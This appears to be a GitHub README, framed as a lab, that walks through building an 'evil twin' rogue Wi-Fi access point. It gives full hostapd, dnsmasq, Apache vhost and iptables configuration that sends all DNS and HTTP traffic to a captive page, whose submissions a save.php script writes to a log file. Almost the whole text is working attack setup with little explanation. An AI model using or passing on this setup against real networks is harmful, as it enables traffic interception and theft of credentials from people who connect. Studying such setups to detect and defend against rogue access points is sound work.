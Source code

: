 # Evil-Twin
Set up your LAB
install:
```bash
sudo apt update
sudo apt install -y hostapd dnsmasq lighttpd php
``  

```
dnsmasq.conf file:
```bash
interface=wlan0
bind-interfaces
no-resolv
log-queries

dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1

address=/#/192.168.50.1

address=/captive.apple.com/192.168.50.1
address=/www.msftconnecttest.com/192.168.50.1
address=/connectivitycheck.gstatic.com/192.168.50.1

```

hostapd.conf:
```bash
interface=wlan0
driver=nl80211
ssid=LabPortal
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=0
```



wlan0 interface:
```bash
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip addr add 192.168.50.1/24 dev wlan0
sudo ip link set wlan0 up

```

PHP + Apache:
```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php
sudo systemctl enable --now apache2
```

start:
```bash
sudo hostapd hostapd.conf
sudo dnsmasq -C dnsmasq.conf
```

New Models:
```bash
sudo a2enmod rewrite
sudo a2enmod headers
sudo systemctl restart apache2
```

Create Folder:
```bash
sudo mkdir -p /var/www/captive
```
Create File:
```bash
/var/www/captive/index.html
/var/www/captive/save.php
```
Create Log file:
```bash
touch /var/log/captive.log
```
Permission to log file:
```bash
sudo chown www-data:www-data /var/log/captive.log
sudo chmod 664 /var/log/captive.log
```

New Vhost:
```bash
nano /etc/apache2/sites-available/captive.conf
```
```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive


    <Directory /var/www/captive>
        AllowOverride All
        Require all granted
    </Directory>

 
    # iOS/macOS
    Alias /hotspot-detect.html /var/www/captive/index.html
    # Android
    Alias /generate_204 /var/www/captive/index.html
    # Windows
    Alias /connecttest.txt /var/www/captive/index.html

   
    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/save\.php$
    RewriteRule ^.*$ /index.html [L]

    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
</VirtualHost>
```
```bash
sudo a2ensite captive.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```


IpTables:
```bash
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53


```
